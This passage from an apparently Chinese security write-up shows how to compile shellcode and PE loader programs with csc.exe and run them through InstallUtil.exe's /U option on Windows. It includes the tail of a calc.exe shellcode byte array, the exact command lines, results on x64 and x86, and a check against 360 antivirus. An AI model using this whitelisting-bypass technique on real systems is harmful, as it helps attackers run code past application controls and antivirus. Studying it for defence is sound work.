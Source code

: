 ```
0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,
0x63,0x2e,0x65,0x78,0x65,0x00 };

```

替换Shellcode.cs中的byte[] shellcode

使用.net 2.0 x64中的csc.exe和InstallUtil.exe，执行代码：

```
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe  /unsafe /platform:x64 /out:exeshell.exe Shellcode.cs

C:\Windows\Microsoft.NET\Framework64\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U exeshell.exe

```

成功执行shellcode，弹出计算器

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/447076d42cb554ff5ddb7c6e53ce920c4d53d658.jpg)

如果使用.net 2.0 x86中的csc.exe和InstallUtil.exe，执行代码：

```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe  /unsafe /platform:x64 /out:exeshell.exe Shellcode.cs

C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U exeshell.exe

```

会报错，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/5a08db02c808786e7bdcf04bc31e703d550335d4.jpg)

测试exeshellx64.exe查杀情况，360干的不错，查杀，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/9e4d332f6551d2587458fe5c9560e35b1c241489.jpg)

3、win8 x86
----------

默认.net环境，支持4.0

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/c88d4a7c00905a339a4058c63900c73b31d27051.jpg)

**（1）**利用InstallUtil.exe执行pe文件

执行代码：

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /unsafe /out:PELoader.exe PELoader.cs

C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U PELoader.exe

```
